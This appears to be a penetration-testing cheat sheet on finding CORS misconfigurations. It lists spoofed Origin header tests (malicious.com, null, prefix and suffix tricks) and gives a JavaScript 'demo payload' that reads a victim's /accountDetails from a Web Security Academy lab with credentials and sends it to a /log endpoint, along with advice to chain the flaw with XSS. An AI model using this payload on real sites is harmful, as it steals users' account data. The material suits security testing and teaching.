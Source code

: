### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

```
